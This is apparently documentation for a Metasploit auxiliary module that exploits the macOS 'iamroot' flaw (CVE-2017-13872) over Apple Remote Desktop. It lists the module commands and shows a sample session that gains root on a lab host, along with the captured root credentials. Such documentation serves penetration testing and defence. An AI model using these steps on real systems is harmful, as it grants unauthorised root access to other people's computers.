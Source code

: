 ## Vulnerable Application

This module remotely exploits the remote CVE-2017-13872 (iamroot) vulnerability over Apple Remote Desktop protocol (ARD). It assumes that "System Preferences > Sharing > Screen Sharing" is enabled.

## Verification Steps

1. Do: `use auxiliary/scanner/vnc/ard_root_pw`
2. Do: `set RHOSTS [IP]`
3. Do: `run`

## Options

## Scenarios

**Running the scanner**

```
msf > use auxiliary/scanner/vnc/ard_root_pw
msf auxiliary(scanner/vnc/ard_root_pw) > set RHOSTS 172.16.143.129
RHOSTS => 172.16.143.129
msf auxiliary(scanner/vnc/ard_root_pw) > run

[*] 172.16.143.129:5900   - Attempting authentication as root.
[*] 172.16.143.129:5900   - Testing login as root with chosen password.
[+] 172.16.143.129:5900   - Login succeeded - root:xaavMPozB2HmDhGX
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

**Credentials**

```
msf auxiliary(scanner/vnc/ard_root_pw) > creds
Credentials
===========

host            origin          service         public  private           realm  private_type
----            ------          -------         ------  -------           -----  ------------
172.16.143.129  172.16.143.129  5900/tcp (vnc)  root    xaavMPozB2HmDhGX         Password
```
